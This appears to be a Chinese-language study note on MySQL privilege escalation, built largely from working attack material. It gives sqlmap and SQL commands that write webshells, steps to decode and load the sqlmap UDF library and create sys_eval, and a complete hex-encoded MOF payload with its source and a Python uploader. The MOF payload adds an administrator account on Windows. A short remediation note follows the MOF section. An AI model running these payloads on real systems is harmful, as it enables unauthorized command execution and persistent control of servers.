[【数据库提权系列】---【Mysql-UDF提权篇】](https://www.freebuf.com/articles/database/291175.html)

[【数据库提权系列】---【Mysql-MOF提权篇】](https://www.freebuf.com/articles/web/292691.html)

[MySQL 漏洞利用与提权-国光](https://www.sqlsec.com/2020/11/mysql.html#%E5%8F%8D%E5%BC%B9%E7%AB%AF%E5%8F%A3%E6%8F%90%E6%9D%83)

# 0x01 数据库权限

# into outfile写入webshell

## 条件准备

```SQL
show variables like "%secure%"     #查看文件读写权限
```



查看`secure_file_priv`显示文件读写权限，null表示无权限，空为任意文件读写，还有指定路径读写

（本地如果是null的话可以去mysql目录的my.ini的[mysqld]中添加secure_file_priv = ''再重启mysql）



在 MySQL 5.5 之前 secure_file_priv 默认是空，这个情况下可以向任意绝对路径写文件

在 MySQL 5.5 之后 secure_file_priv 默认是 NULL，这个情况下不可以写文件

## 文件上传

我们执行命令




  

可以看到1.php文件成功上传了

sqlmap工具使用：

```bash
sqlmap -u "http://x.x.x.x/?id=x" --file-write="/Users/guang/Desktop/shell.php" --file-dest="/var/www/html/test/shell.php"
```

# 日志文件写入webshell

- Web 文件夹宽松权限可以写入
    
- Windows 系统下
    
- 高权限运行 MySQL 或者 Apache
    

MYSQL5.0以上都会创建日志文件，可以通过修改日志的全局变量来 getshell、

```SQL
SHOW VARIABLES LIKE 'general%';    #查看权限
```

日志功能默认关闭了



但是这个我们可以自行修改，开启日志功能，直接select就可以把内容保存到日志文件中然后我们把日志文件路径改一下，文件后缀改为php，这样就可以解析了。



这里虽然可以成功写入，但是这个 info.php 是 MySQL 创建的 ：

```bash
-rw-rw---- 1 mysql mysql 293 Oct 31 21:15 info.php
```

Apache 访问这个 php 文件会出现 HTTP 500 的状态码，结论是 root 系统这种情况基本上不会成功，只有在 Windows 系统下成功率会高一些，不过这里还是可以当做小知识点来学习记录。

# 0x02 UDF提权

拿到数据库权限后我们要想办法提权，进一步获取系统权限。

UDF是数据库允许用户自定义函数的一种功能，自定义后的函数就像version(),database()等函数一样直接使用。

## 2.1 动态链接库

如果是 `MySQL >= 5.1` 的版本，必须把 UDF 的动态链接库文件放置于 MySQL 安装目录下的 `lib\plugin` 文件夹下文件夹下才能创建自定义函数。

那么动态链接库文件去哪里找呢？实际上我们常用的工具 `sqlmap` 中集成了对应系统的库文件。

- **udf库文件位置（** **`sqlmap目录/data/udf/mysql`** **）**
    



不过 sqlmap 中 自带这些动态链接库为了防止被误杀都经过编码处理过，不能被直接使用。不过可以利用 sqlmap 自带的解码工具 cloak.py 来解码使用，cloak.py 的位置为：`/extra/cloak/cloak.py` ，解码方法如下：

```Bash
# 查看当前目录情况
➜ pwd
/Users/guang/Documents/X1ct34m/sqlmap/1.4.6/extra/cloak

# 解码 32 位的 Linux 动态链接库
➜ python3 cloak.py -d -i ../../data/udf/mysql/linux/32/lib_mysqludf_sys.so_ -o lib_mysqludf_sys_32.so

# 解码 64 位的 Linux 动态链接库
➜ python3 cloak.py -d -i ../../data/udf/mysql/linux/64/lib_mysqludf_sys.so_ -o lib_mysqludf_sys_64.so

# 解码 32 位的 Windows 动态链接库
➜ python3 cloak.py -d -i ../../data/udf/mysql/windows/32/lib_mysqludf_sys.dll_ -o lib_mysqludf_sys_32.dll

# 解码 64 位的 Windows 动态链接库
➜ python3 cloak.py -d -i ../../data/udf/mysql/windows/64/lib_mysqludf_sys.dll_ -o lib_mysqludf_sys_64.dll

# 查看当前目录下的情况
➜ ls
README.txt              cloak.py                lib_mysqludf_sys_32.so  lib_mysqludf_sys_64.so
__init__.py             lib_mysqludf_sys_32.dll lib_mysqludf_sys_64.dll
```

(已经解码好了在`/root/sqlmap-dev/extra/cloak`)

## 2.2 寻找插件目录

现在要把动态链接库放到MySQL 的插件目录下。这个目录要用sql语句查询

```SQL
mysql> show variables like '%plugin%';                                                                                                                                          
+-------------------------------+----------------------------------------------------------------+                                                                                
| Variable_name                 | Value                                                          |                                                                                
+-------------------------------+----------------------------------------------------------------+                                                                                
| default_authentication_plugin | mysql_native_password                                          |                                                                                
| plugin_dir                    | D:\My_download\phpstudy_pro\Extensions\MySQL5.7.26\lib\plugin\ |                                                                                
+-------------------------------+----------------------------------------------------------------+
```

```SQL
select @@basedir;
+-----------------------------------------------------+
| @@basedir                                           |
+-----------------------------------------------------+
| D:\My_download\phpstudy_pro\Extensions\MySQL5.7.26\ |
+-----------------------------------------------------+
```

这条命令用来找到mysql的安装目录,虽然这里查到了 `D:\My_download\phpstudy_pro\Extensions\MySQL5.7.26\lib\plugin\`这个路径，但是也有可能不存在这个路径，要手动创建一下。

## **2.3 写入动态链接库**

然后将我们的动态链接库文件16进制编码一下输出到udf.txt文件中。

```SQL
SELECT hex(load_file('D:\\My_download\\phpstudy_pro\\Extensions\\MySQL5.7.26\\bin\\lib_mysqludf_sys_64.dll')) into dumpfile 'D:/udf.txt';
```



生成了文件，可以看一下，都是16进制编码。

然后将16进制编码直接复制 ，用dumpfile写进电脑，（**outfile导出文件会在末尾写入新行且转义换行符，破坏二进制文件结构，dumpfile不会进行任何操作**）。（**记得这是16进制所以前面要加上0x**）(**写入到plugin目录哦**)

```SQL
SELECT 0x7f454c4602... INTO DUMPFILE 'D:\\My_download\\phpstudy_pro\\Extensions\\MySQL5.7
.26\\lib\\plugin\\UDF.dll"\';
```



这里已经成功写入了。

### 写入动态链接库(特殊情况)

## **2.4 创建自定义函数并调用命令**

然后根据udf文件创建函数就好了，这里创建的函数不能自己随意创建，因为这个udf文件不是我们自己写的



我们先看一下有没有函数，

```SQL
select * from mysql.func;
```



现在是没有的。我们执行：

```SQL
create function sys_eval returns string soname 'udf.dll';
```

再查看一下



成功写入函数。现在已经提权成功。像使用version()函数一样就好了



**删除函数**

```SQL
drop function sys_eval;
```

# 0x03 反弹端口提权

这其实就是UDF提权的另外一种利用，用另外一个动态链接库实现shell反弹。

具体见[国光师傅的文章](https://www.sqlsec.com/2020/11/mysql.html#%E5%8F%8D%E5%BC%B9%E7%AB%AF%E5%8F%A3%E6%8F%90%E6%9D%83)

# 0x04 MOF提权

## 4.1 简介

MOF 提权是一个有历史的漏洞，基本上在 Windows Server 2003 的环境下才可以成功。提权的原理是 C:/Windows/system32/wbem/mof/ 目录下的 mof 文件每 隔一段时间（几秒钟左右）都会被系统执行，因为这个 MOF 里面有一部分是 VBS 脚本，所以可以利用这个 VBS 脚本来调用 CMD 来执行系统命令，如果 MySQL 有权限操作 mof 目录的话，就可以来执行任意命令了。

总结就是把构造好的mof文件上传到`C:/Windows/system32/wbem/mof/`目录下，会自动执行

  

## 4.2 payload

- **into dumpfile直接写入hex编码的mof文件（等待稍长时间）。**
    

```sql
select 0x23707261676d61206e616d65737061636528225c5c5c5c2e5c5c726f6f745c5c737562736372697074696f6e2229200a696e7374616e6365206f66205f5f4576656e7446696c74657220617320244576656e7446696c746572200a7b200a202020204576656e744e616d657370616365203d2022526f6f745c5c43696d7632223b200a202020204e616d6520203d202266696c745032223b200a202020205175657279203d202253656c656374202a2046726f6d205f5f496e7374616e63654d6f64696669636174696f6e4576656e742022200a20202020202020202020202022576865726520546172676574496e7374616e636520497361205c2257696e33325f4c6f63616c54696d655c222022200a20202020202020202020202022416e6420546172676574496e7374616e63652e5365636f6e64203d2035223b200a2020202051756572794c616e6775616765203d202257514c223b200a7d3b200a0a696e7374616e6365206f66204163746976655363726970744576656e74436f6e73756d65722061732024436f6e73756d6572200a7b200a202020204e616d65203d2022636f6e735043535632223b200a20202020536372697074696e67456e67696e65203d20224a536372697074223b200a2020202053637269707454657874203d200a202020202276617220575348203d206e657720416374697665584f626a656374285c22575363726970742e5368656c6c5c22295c6e5753482e72756e285c226e65742e65786520757365722061646d696e2061646d696e202f6164645c2229223b200a7d3b200a0a696e7374616e6365206f66205f5f46696c746572546f436f6e73756d657242696e64696e67200a7b200a20202020436f6e73756d65722020203d2024436f6e73756d65723b200a2020202046696c746572203d20244576656e7446696c7465723b200a7d3b into dumpfile 'C:/windows/system32/wbem/mof/nullevt.mof';
```

- **mof 文件：**
    

```mof
#pragma namespace("\\\\.\\root\\subscription") 
instance of __EventFilter as $EventFilter 
{ 
    EventNamespace = "Root\\Cimv2"; 
    Name  = "filtP2"; 
    Query = "Select * From __InstanceModificationEvent " 
            "Where TargetInstance Isa \"Win32_LocalTime\" " 
            "And TargetInstance.Second = 5"; 
    QueryLanguage = "WQL"; 
}; 
instance of ActiveScriptEventConsumer as $Consumer 
{ 
    Name = "consPCSV2"; 
    ScriptingEngine = "JScript"; 
    ScriptText = 
    "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user admin admin /add\")"; 
}; 
instance of __FilterToConsumerBinding 
{ 
    Consumer   = $Consumer; 
    Filter = $EventFilter; 
};
```

- **数据库允许远程链接的情况下使用mof.py写入:**
    

```python
# mof.py
#Python3

import MySQLdb

conn=MySQLdb.connect(host="192.168.111.6",user="root",passwd="root") 

payload = r'''
#pragma namespace("\\\\.\\root\\subscription")
instance of __EventFilter as $EventFilter
 {
 EventNamespace = "Root\\Cimv2";
 Name = "filtP2";
 Query = "Select * From __InstanceModificationEvent "
 "Where TargetInstance Isa \"Win32_LocalTime\" "
 "And TargetInstance.Second = 5";
 QueryLanguage = "WQL";
 };

instance of ActiveScriptEventConsumer as $Consumer
 {
 Name = "consPCSV2";
 ScriptingEngine = "JScript";
 ScriptText =
 "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user xxxx xxx /add\")";
 };

instance of __FilterToConsumerBinding
 {
 Consumer = $Consumer;
 Filter = $EventFilter;
 };
'''

ascii_payload = ''

for each_chr in payload:
    ascii_payload += str(ord(each_chr)) + ','

ascii_payload = ascii_payload[:-1]

cur = conn.cursor()
sql = "select char(%s) into dumpfile 'C:/windows/system32/wbem/mof/nullevt.mof'" % ascii_payload

cur.execute(sql)
conn.close()
```

## 4.3 修复

**服务器会每五秒会循环执行之前的mof文件中的内容，在服务器被mof提权后，需要解决系统继续运行恶意代码的问题：**

1、net stop winmgmt

2、删除文件夹下内容 c:/windows/system32/wbem/repository

3、net start winmgmt

这里环境问题没有复现，具体见文章[【Mysql-MOF提权】](https://www.freebuf.com/articles/web/292691.html)

# 0x05 启动项提权

这种提权也常见于 Windows 环境下，当 Windows 的启动项可以被 MySQL 写入的时候可以使用 MySQL 将自定义脚本导入到启动项中，这个脚本会在用户登录、开机、关机的时候自动运行。

这里只是了解了一下，具体阔以看国光师傅的文章。

# **0x06 CVE-2016-6663复现**

## 环境准备

这里用国光师傅的docker环境

```bash
# 拉取镜像
docker pull sqlsec/cve-2016-6663

# 部署镜像
docker run -d -p 33066:3306 -p 8080:80 --name CVE-2016-6663 sqlsec/cve-2016-6663
```